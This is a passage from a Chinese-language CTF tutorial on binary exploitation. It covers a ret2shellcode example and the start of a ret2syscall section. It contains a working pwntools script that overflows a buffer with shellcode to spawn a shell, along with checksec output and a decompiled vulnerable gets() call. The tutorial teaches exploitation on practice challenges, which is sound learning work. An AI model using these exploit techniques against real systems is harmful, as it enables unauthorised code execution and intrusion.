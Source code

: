 那么这次我们就控制程序执行 shellcode，也就是读入 shellcode，然后控制程序执行 bss 段处的 shellcode。其中，相应的偏移计算类似于 ret2text 中的例子。

最后的 payload 如下：

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080

sh.sendline(shellcode.ljust(112, b'A') + p32(buf2_addr))
sh.interactive()
```

### 题目

- sniperoj-pwn100-shellcode-x86-64

## ret2syscall

### 原理

ret2syscall，即控制程序执行系统调用，获取 shell。

### 例子

这里我们继续以 bamboofox 中的 ret2syscall 为例。  

> 点击下载: [ret2syscall](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2syscall/bamboofox-ret2syscall/rop)

首先检测程序开启的保护：

```shell
➜  ret2syscall checksec rop
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，源程序为 32 位，开启了 NX 保护。接下来利用 IDA 进行反编译：

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```

